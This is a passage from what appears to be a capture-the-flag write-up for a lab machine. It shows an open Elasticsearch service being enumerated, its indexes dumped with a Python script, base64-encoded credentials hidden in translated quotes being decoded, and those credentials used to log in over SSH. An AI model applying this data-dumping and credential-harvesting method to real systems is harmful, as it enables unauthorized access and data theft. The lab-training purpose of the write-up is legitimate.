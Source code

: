 ```
"ratliffheath@zappix.com"
"lavernejohnson@senmei.com"
"effiegates@digitalus.com"
"rowenawilkinson@asimiline.com"
"hudsonenglish@xinware.com"
"blakedavidson@quantasis.com"
"garciahess@quiltigen.com"
"rachellerice@enaut.com"
[... SNIP ...]
```
So, at this point we may notice that there is a field called "total" inside "hits" that indicates that 1000 documents were found inside this index but only 10 were retried. This is because by default there is a limit of 10 documents.  
But, now that you know that this index contains 1000 documents, you can dump all of them indicating the number of entries you want to dump in the size parameter.  
Now let's enumerate the quote index.  

## User
Using the previous method to enumerate elastic for the quote index, we can see that the index is filled with Spanish quotes, so before starting let's translate them.  
To do so, let's build the following python script:  
```
import requests, json
from deep_translator import GoogleTranslator

r=requests.get('http://10.10.10.115:9200/quotes/_search?size=253');
quotes=json.loads(r.text)

for i in range(0, len(quotes['hits']['hits'])):
    q=quotes['hits']['hits'][i]
    t=q['_source']['quote']
    translation = GoogleTranslator(source='auto', target='en').translate(t)
    print(translation)
```
now that we have all the quotes translated we can search in the output for keywords that may represent any credential to access this box like secret, key,password, passwd and so on.  
we can find the following:  
```
I have to save the key for the machine: dXNlcjogc2VjdXJpdHkg   
This key cannot be lost, I keep it here: cGFzczogc3BhbmlzaC5pcy5rZXk=
```  
Let's base64 decode:  
```
[root@kali Haystack ]$ echo "dXNlcjogc2VjdXJpdHkg" | base64 -d
user: security #    
[root@kali Haystack ]$ echo "cGFzczogc3BhbmlzaC5pcy5rZXk=" | base64 -d
pass: spanish.is.key#  
```
now, if we try this user/pass combination with SSH service (the only service that is exposing a login) we can login as user security:
```
[root@kali Haystack ]$ ssh $TARGET -l security                    
security@10.10.10.115's password:
Last login: Fri Feb 18 12:03:21 2022 from 10.10.14.24
[security@haystack ~]$
```
